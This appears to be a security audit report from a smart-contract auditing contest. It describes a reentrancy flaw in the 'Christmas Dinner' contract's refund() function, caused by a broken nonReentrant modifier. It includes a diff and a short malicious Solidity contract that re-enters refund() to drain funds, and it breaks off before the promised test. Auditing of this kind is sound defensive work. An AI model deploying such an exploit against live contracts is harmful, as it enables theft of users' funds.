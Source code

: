 # Security Report for the Christmas Dinner CodeHawks FirstFlight Contest \*_shadow audit_

## Critical Issues

### [C-1] Reentrancy risk in `refund()` due to improperly defined `nonReentrant` modifier

**Description:**

The `nonReentrant` modifier is implemented manually with a `locked` boolean, but it is not reset properly in the `refund()` function.

**Impact:**

In the `nonReentrant` modifier, the `locked` variable is set to `false` after the function execution,

```solidity
    modifier nonReentrant() {
        require(!locked, "No re-entrancy");
        _;
-->     locked = false;
    }
``` 

while it is true that `transfer` is non reentrant, since there is already a recommendation for this contract to use `call` in `_refundETH()`, then any call to a properly crafted malicious contract would result in reentrancy and theft of all funds in the contract.

**PoC:**

First, modify `_refundETH()` to use `call` instead of `transfer`

```diff
    function _refundETH(address payable _to) internal {
        uint256 refundValue = etherBalance[_to];
-       _to.transfer(refundValue);
+       (bool success,) = _to.call{value: refundValue}("");
+       require(success, "ETH transfer failed");
        etherBalance[_to] = 0;
    }
```

Here is a malicious contract, and test to prove reentrancy exploit:

```solidity
    contract Exploit {
        ChristmasDinner public dinner;

        constructor(address payable _dinner) {
            dinner = ChristmasDinner(_dinner);
        }

        // Fallback function to reenter the refund() function
        receive() external payable {
            if (address(dinner).balance >= 1 ether) {
                dinner.refund();
            }
        }
    }
```
